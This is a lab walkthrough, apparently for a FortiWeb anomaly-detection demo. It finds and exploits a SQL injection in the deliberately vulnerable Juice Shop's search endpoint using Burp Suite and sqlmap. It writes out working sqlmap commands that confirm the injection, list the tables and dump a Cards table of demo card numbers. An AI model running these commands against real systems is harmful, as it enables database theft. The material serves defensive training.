





# [Attack] Anomaly Detection

In this scenario you will attack an Web Shop Application with an SQL injection which can be blocked by FortiWeb Anomaly Detection. 

## Required Tools

- Web Browser (e.g. Firefox, Chrome, etc)
- Interception Proxy (e.g. [Burp Suite](https://portswigger.net/burp/communitydownload) or [OWASP ZAP](https://www.zaproxy.org/))
- [sqlmap](https://sqlmap.org/) tool

## Preparations

1. Connect to the Attacker System
2. Check that the required tools are already pre-installed
3. Browse to the Fortinet Juice Shop Website with the Web Browser on the Attacker System to very that the connection can be etablished

## Finding the vulnerability

For documentation purpose the Documentation will only cover Burp Suite and Firefox Web Browser attacking the Vulnerable application hosted on localhost port 3000. Please adjust the documentation with the information provided as needed.

1. Start the Burp Suite Application on the Attacker System.

   1. If requested, keep the default settings

   

   

   Select `Start Burp` at the top right corner and proceed.

2. To open the build in Browser, select the `Proxy` tab and the the `Intercept` Subtab


3. As a next step click on `Open Browser` to start the build in Browser.
4. now open the Fortinet Juice Shop Page again.



5. After opening the Webpage, switch back to the Burp Suite main Window
6. there select the `HTTP history` Subtab within the `Proxy` Tab


7. You will notice many HTTP calls loading various part of the Webshop we have open in he Browser earlier.
8. Scrolling through the list of the requests, you will notice a request against the URL `/rest/products/search?q=`



9. If you select the HTTP request you will notice, that at the bottom of the window some raw request & response details populate.
10. Do a right click in the raw request section and select `Send to Repeater` or press the key combination `Ctrl+R`
11. Now the `Repeater` tab will be highlighted. Switch over to the `Repeater` tab. The Repeater functionality of Burp Suite allows you to edit and Resend the raw HTTP request as often as you want without having to follow many manual steps compared to the Browser developer tools.



12. If you click on the `Send` button on the top left you will notice that on the right half of the Window the raw server response is displayed.



13. If you add a the following characters: `'--` as a search query (Url now looks like the following: `/rest/products/search?q='--`) in the request and resend it, you will notice an error message in the response of the server.


14. As the Server response indicates a SQL Injection vurlnerability, let' switch over to the tool called sqlmap which automates SQL injection attacks to exfiltrate Data or get a Shell on the Server.

## Leverage found Vulnerability

1. Switch over to the Terminal on your Attacker System.
2. Run sqlmap with the `-h` option from the command line to get the help output:

```bash
$ sqlmap -h
```

3. To exactly find out, which type of SQL injection exists within the Fortinet Webshop search, run sqlmap against the found URL and let it find itself the vulnerability. As we already have found out that the database back-end is `sqlite` let's provide this information to sqlmap to safe some unnecessary requests.

```bash
$ sqlmap -u "http://localhost:3000/rest/products/search?q="  --dbms=SQLite --technique=B --level 3 --batch
...[SNIP]...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: q (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=') AND 1976=1976 AND ('zuWc' LIKE 'zuWc
---
...[SNIP]...
```

4. Now that sqlmap is aware of the vulnerability, let's let sqlmap figure out a list of all tables in the database. to speed this up, also set the parameter `--threads 10`

```bash
$ sqlmap -u "http://localhost:3000/rest/products/search?q="  --technique=B --tables --threads 10
...[SNIP]...
<current>
[20 tables]
+-------------------+
| Addresses         |
| BasketItems       |
| Baskets           |
| Captchas          |
| Cards             |
| Challenges        |
| Complaints        |
| Deliveries        |
| Feedbacks         |
| ImageCaptchas     |
| Memories          |
| PrivacyRequests   |
| Products          |
| Quantities        |
| Recycles          |
| SecurityAnswers   |
| SecurityQuestions |
| Users             |
| Wallets           |
| sqlite_sequence   |
+-------------------+
...[SNIP]...
```

5. As you were able to extract all the table names of the current Database, you could now start extracting information from each Table. As an example the guide will show you how to extract all the existing Credit Card data:

```bash
$ sqlmap -u "http://localhost:3000/rest/products/search?q=" --technique=B -T Cards --threads 10 --dump
...[SNIP]...
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] N
Database: <current>
Table: Cards
[6 entries]
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
| id | UserId | 255 | cardNum          | expYear | expMonth | fullName         | createdAt                      | updatedAt                      |
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
| 1  | 4      | 255 | 4815205605542754 | 2092    | 12       | Bjoern Kimminich | 2022-03-28 17:02:26.911 +00:00 | 2022-03-28 17:02:26.911 +00:00 |
| 2  | 17     | 255 | 1234567812345678 | 2099    | 12       | Tim Tester       | 2022-03-28 17:02:27.287 +00:00 | 2022-03-28 17:02:27.287 +00:00 |
| 3  | 1      | 255 | 4716190207394368 | 2081    | 2        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
| 4  | 1      | 255 | 4024007105648108 | 2086    | 4        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
| 5  | 2      | 255 | 5107891722278705 | 2099    | 11       | Jim              | 2022-03-28 17:02:27.330 +00:00 | 2022-03-28 17:02:27.330 +00:00 |
| 6  | 3      | 255 | 4716943969046208 | 2081    | 2        | Bender           | 2022-03-28 17:02:27.344 +00:00 | 2022-03-28 17:02:27.344 +00:00 |
+----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
...[SNIP]...
```

Depending on the data, sqlmap ask if the extracted data should be tried to cracked by a hashcracker. As it is not required for the demo you could skip this.

6. Step 5 could now be repeated as often as necessary to extract all the data from the different tables. Only the parameter `-T` has to be adjusted. 

7. Now please continue on how to secure the Webshop with FortiWeb Anomaly detection capabilities.